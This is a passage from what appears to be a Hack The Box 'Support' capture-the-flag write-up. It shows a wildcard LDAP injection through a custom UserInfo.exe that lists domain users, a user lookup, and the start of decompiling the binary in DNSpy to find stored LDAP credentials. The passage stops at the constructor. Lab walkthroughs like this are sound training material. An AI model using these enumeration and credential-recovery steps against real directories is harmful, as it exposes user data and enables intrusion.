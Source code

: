 

    PS > .\UserInfo.exe -v find -first john
    [*] LDAP query to use: (givenName=john)
    [-] No users identified with that query.



I can do some basic LDAP injection and get all users with a first name:



    PS > .\UserInfo.exe find -first '*'
    raven.clifton
    anderson.damian
    monroe.david
    cromwell.gerard
    west.laura
    levine.leopoldo
    langley.lucy
    daughtler.mabel
    bardot.mary
    stoll.rachelle
    thomas.raphael
    smith.rosario
    wilson.shelby
    hernandez.stanley
    ford.victoria



With a valid name, it prints info about the user that a support team
might need:



    PS > .\UserInfo.exe user -username smith.rosario
    First Name:           rosario
    Last Name:            smith
    Contact:              smith.rosario@support.htb
    Last Password Change: 5/28/2022 7:12:19 AM



### Recover LDAP Password

#### Static

I could go further into the LDAP injection, but given that it's making
LDAP queries against Support, and I already showed that these queries
require auth, I'll look at the binary to locate credentials.

I'll open `UserInfo.exe` in DNSpy.

![](/img/image-20220527140938185.png)

`LdapQuery` seems like a good place to start. There are two functions,
`printUser` and `query`, which likely match up with the two commands.
The constructor is most interesting:
